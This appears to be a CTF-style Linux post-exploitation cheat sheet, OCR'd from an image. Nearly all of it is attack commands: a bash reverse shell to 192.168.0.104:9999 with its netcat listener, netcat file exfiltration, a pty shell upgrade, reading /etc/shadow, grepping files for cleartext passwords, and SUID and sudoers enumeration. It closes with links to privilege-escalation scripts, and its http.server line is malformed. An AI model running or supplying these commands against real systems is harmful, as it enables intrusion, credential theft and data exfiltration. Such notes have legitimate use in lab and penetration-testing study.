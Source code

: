 __send file through netcat(listener)__

nc -lvnp port > flag.txt

__send file thru netcat (sender)__

nc -w 3 listener ip port < flag.txt

__python server__

( python3 -m http.server 192.168.0.104:8080 )

__interactive shell__

(python -c "import pty;pty.spawn('/bin/sh')")

__forwarding shell(victim)__

(bash -i >& /dev/tcp/192.168.0.104/9999 0>&1)

__forwarding shell(host)__

(nc -lvnp 9999)

__change from non interactive to interactive__

(*echo $SHELL (variable yg dh diset)*echo $TERM*export SHELL=/bin/bash*export TERM=xterm-256color*stty -a*stty raw -a)

__system/user info__

(uname -a, env, whoami, history, pwd -> searchsploit)

__check sudoers__ 

(sudo -l, cat /etc/sudoers)

__other super users__

( grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}')

__network info__

( ifconfig -a, netstat -antup, lsof -i)

__enum serv/softw__

( ps aux, ps -ef)

__SUID files__

(find / -perm -u=s -type f 2>/dev/null)

__pw hashes__

(cat /etc/shadow)

__check cleartxt cred__

(find . -type f -maxdepth 4 | xargs grep -i "password")

__reference__

_http://www.securitysift.com/download/linuxprivchecker.py_

_https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh_

_https://gtfobins.github.io/_

